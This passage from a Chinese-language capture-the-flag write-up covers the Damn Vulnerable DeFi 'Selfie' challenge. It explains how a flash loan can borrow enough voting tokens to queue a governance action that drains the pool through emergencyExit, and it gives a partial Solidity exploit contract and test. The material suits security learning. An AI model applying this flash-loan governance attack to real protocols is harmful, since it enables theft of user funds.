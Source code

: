 ```
        weth.transfer(recovery, weth.balanceOf(player));
    }
    
```

### Selfie

[題目](https://www.damnvulnerabledefi.xyz/challenges/selfie/): 一個新的貸款池已經上線！現在它提供DVT代幣的閃電貸款服務。這個池子還包括一個精巧的治理機制來控制它。這能出什麼問題呢，對吧？你開始時沒有任何DVT代幣餘額，而這個池子中有150萬的資金面臨風險。將池子中的所有資金救出並存入指定的回收賬戶，完成這項挑戰。

過關條件:
- 池子的DVT餘額必須為0.
- 指定的 Recovery 錢包中的餘額必須等於池子中原本的DVT數量（即 TOKENS_IN_POOL）.

解題:
- SelfiePool 合約中有一個 function emergencyExit() 可以把合約中所有餘額轉移. 但需要滿足 onlyGovernance 權限.
- 跟進 SimpleGovernance 合約可以發現可以透過 queueAction 發起一個提案, 且data可以控制. 那就可以透過這個方式去執行 emergencyExit().
- 要執行 queueAction 要通過 _hasEnoughVotes 檢查, DamnValuableVotes 繼承 ERC20Votes, 所以借貸到的DVT需要delete受投票權給自己, 需要持有總發行量的一半投票權才能發起提案.
- 解題流程: Flashloan -> delegate ->發起提案 queueAction -> repay -> executeAction

[POC](./damn-vulnerable-defi/test/selfie/selfie.t.sol) : 
```
    function test_selfie() public checkSolvedByPlayer {
        Exploit exploiter = new Exploit(
            address(pool),
            address(governance),
            address(token)
        );
        exploiter.exploitSetup(address(recovery));
        vm.warp(block.timestamp + 2 days);
        exploiter.exploitCloseup();
    }

contract Exploit is IERC3156FlashBorrower{
    SelfiePool selfiePool;
    SimpleGovernance simpleGovernance;
    DamnValuableVotes damnValuableToken;
    uint actionId;
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");
    constructor(
        address _selfiePool, 
        address _simpleGovernance,
        address _token
    ){
        selfiePool = SelfiePool(_selfiePool);
        simpleGovernance = SimpleGovernance(_simpleGovernance);
        damnValuableToken = DamnValuableVotes(_token);
    }
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32){
        damnValuableToken.delegate(address(this));
        uint _actionId = simpleGovernance.queueAction(
            address(selfiePool),
            0,
            data
        );
        actionId = _actionId;
        IERC20(token).approve(address(selfiePool), amount+fee);
        return CALLBACK_SUCCESS;
```